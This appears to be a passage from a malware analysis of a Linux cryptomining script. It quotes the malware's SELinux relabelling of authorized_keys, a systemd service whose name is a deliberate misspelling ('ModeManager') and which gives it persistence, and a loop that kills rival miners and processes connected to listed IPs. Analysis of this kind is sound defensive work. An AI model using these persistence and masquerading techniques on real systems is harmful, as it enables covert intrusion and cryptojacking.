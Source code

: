 **Insight 2**. The script is aware of SELinux

```bash
chcon -R unconfined_u:object_r:user_home_t:s0 authorized_keys
restorecon -v authorized_keys
```

**Insight 3**. Uses typos for common services for persistence (`ModemManager` -> `ModeManager`, `rsyslogd` -> `rsyslgd`)

```bash
    cat <<EOF >> /etc/systemd/system/ModeManager.service
[Unit]
Description=Mode Manager
Wants=network.target
After=syslog.target network-online.target
[Service]
Type=forking
ExecStart=/bin/bash -c 'cp -f -r -- /usr/biosetm64 /usr/-bash 2>/dev/null && /usr/-bash -c  >/dev/null 2>&1 && rm -rf -- /usr/-bash 2>/dev/null'
Restart=always
KillMode=process
[Install]
WantedBy=multi-user.target
EOF
```
**Insight 4**. Sets up a service that periodically kills processes connecting to
some IPs (probably other miners). This is the ``rsyslgd` file which is a bash script (see below)

```bash
#!/bin/bash
while true
do
	pkill -f joseph
	killall joseph
	pkill -f osama
	killall osama
	pkill -f xm64
	killall xm64
	killall daemon
	pkill -f obama1
	killall obama1
	pkill -f kswapd0
	killall kswapd0
	pkill -f jehgms
	killall jehgms
	pkill -f tsm
	killall tsm
	pkill -f rig
	killall rig
	pkill -f xmr
	killall xmr
	...
	kill -9 `ps -ef | grep ps | grep -iv grep | grep -iv ef | awk '{print $2}'`
	kill -9 `ps -ef | grep -w "./cron"  | grep -iv grep | awk '{print $2}'`
	kill -9 `ss -p | grep 179.43.154.189 | awk '{print $7}' | cut -f 2 -d ',' | sed -e 's/=/ /g' | awk '{print $2}'`
	kill -9 `ss -p | grep 51.75.68.83 | awk '{print $7}' | cut -f 2 -d ',' | sed -e 's/=/ /g' | awk '{print $2}'`
	kill -9 `ss -p | grep 121.158.190.84 | awk '{print $7}' | cut -f 2 -d ',' | sed -e 's/=/ /g' | awk '{print $2}'`
	...
done
```
### Masscan
